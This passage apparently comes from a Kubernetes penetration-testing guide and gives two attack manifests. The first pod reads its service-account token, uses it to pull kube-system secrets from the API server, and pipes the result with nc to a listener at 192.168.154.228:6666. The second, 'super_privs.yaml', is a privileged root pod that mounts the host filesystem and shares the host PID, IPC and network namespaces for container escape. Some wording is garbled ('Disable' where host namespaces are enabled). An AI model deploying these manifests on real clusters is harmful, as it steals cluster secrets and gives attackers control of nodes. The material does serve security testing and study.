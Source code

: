 ```yaml
apiVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
  - name: alpine
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
  serviceAccountName: bootstrap-signer
  automountServiceAccountToken: true
  hostNetwork: true
```

### Pod Create & Escape

The following indicates all the privileges a container can have:

* **Privileged access** (disabling protections and setting capabilities)
* **Disable namespaces hostIPC and hostPid** that can help to escalate privileges
* **Disable hostNetwork** namespace, giving access to steal nodes cloud privileges and better access to networks
* **Mount hosts / inside the container**

{% code title="super_privs.yaml" %}
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: ubuntu
  labels:
    app: ubuntu
spec:
  # Uncomment and specify a specific node you want to debug
  # nodeName: <insert-node-name-here>
  containers:
  - image: ubuntu
    command:
      - "sleep"
      - "3600" # adjust this as needed -- use only as long as you need
    imagePullPolicy: IfNotPresent
    name: ubuntu
    securityContext:
      allowPrivilegeEscalation: true
      privileged: true
      #capabilities:
      #  add: ["NET_ADMIN", "SYS_ADMIN"] # add the capabilities you need https://man7.org/linux/man-pages/man7/capabilities.7.html
      runAsUser: 0 # run as root (or any other user)
    volumeMounts:
    - mountPath: /host
      name: host-volume
  restartPolicy: Never # we want to be intentional about running this pod
  hostIPC: true # Use the host's ipc namespace https://www.man7.org/linux/man-pages/man7/ipc_namespaces.7.html
  hostNetwork: true # Use the host's network namespace https://www.man7.org/linux/man-pages/man7/network_namespaces.7.html
  hostPID: true # Use the host's pid namespace https://man7.org/linux/man-pages/man7/pid_namespaces.7.htmlpe_
```